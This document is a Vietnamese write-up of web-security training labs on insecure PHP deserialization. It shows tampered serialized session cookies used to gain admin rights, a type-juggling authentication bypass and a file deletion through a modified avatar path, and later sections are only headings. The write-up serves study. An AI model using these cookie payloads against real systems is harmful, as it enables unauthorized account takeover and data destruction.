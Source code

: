 # 1. Modifying serialized objects

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị 

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```
Thực hiện base64 decode thì ta được 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
``` 
chính là object User với hai thuộc tính "username" và "admin" được serialize bởi PHP.

Sửa thành 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
rồi thực hiện base64 encode, thay thế giá trị cookie hiện tại. Sau khi refresh, link dẫn đến Admin panel xuất hiện.

Vào admin panel và xóa user carlos, kết quả thành công.

# 2. Modifying serialized data types

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị:

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJiNThuaDhwNWo4Z3czM3k2eXF2ZXB6c2k3eWRqd280NSI7fQ%3d%3d
```
Thực hiện base64 decode thì ta được 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b58nh8p5j8gw33y6yqvepzsi7ydjwo45";}
```
Như vậy nếu access token và username đúng thì ta sẽ truy cập được vào tài khoản.

Website sử dụng hàm serialize() của PHP, như vậy ta có thể thay đổi data type của access token thành int, và nếu website không convert access token thành kiểu string, đồng thời trong access token của administrator không có chữ số, và website so sánh access token bằng loose comparision thì ta có thể bypass.

Cấu hình một serialized object mới với `username=administrator` và `access_token=0` (kiểu integer):
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
Thực hiện base64 encode và thay thế cookie hiện tại, kết quả truy cập thành công. Vào admin panel và xóa user carlos, bài lab được giải.

# 3. Using application functionality to exploit insecure deserialization
Đăng nhập với credentials wiener:peter, thực hiện base64 decode session cookie ta được:

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"q1eh79na8deste009sniaq0ytxnirwh5";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```
Dự đoán khi thực hiện chức năng Delete Account, ứng dụng sẽ xóa cả ảnh avatar sử dụng thuộc tính "avatar_link" trong object "User" (session cookie sau khi được serialized). Như vậy thay đổi thành `"avatar_link";s:23:"/home/carlos/morale.txt"`, sau đó click "Delete Account". Kết quả, bài lab được giải thành công.

# 4. Arbitrary object injection in PHP
Đăng nhập với credentials wiener:peter, thực hiện base64 decode session cookie, ta được một object User. Như vậy website sử dụng cơ chế xác thực dựa trên serialized session. Nếu ta truyền vào một object thì object đó sẽ được deserialized.

Nhìn vào trong source code client, ta thấy dòng comment:

```
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```
Thử truy cập `/libs/CustomTemplate.php` thì không thấy hiển thị gì cả, như vậy developer đã thay đổi file này để giấu đi source code. 

# 5. Exploiting Java deserialization with Apache Commons

# 6. Exploiting PHP deserialization with a pre-built gadget chain

# 7. Exploiting Ruby deserialization using a documented gadget chain

# 8. Developing a custom gadget chain for Java deserialization

# 9. Developing a custom gadget chain for PHP deserialization

# 10. Using PHAR deserialization to deploy a custom gadget chain
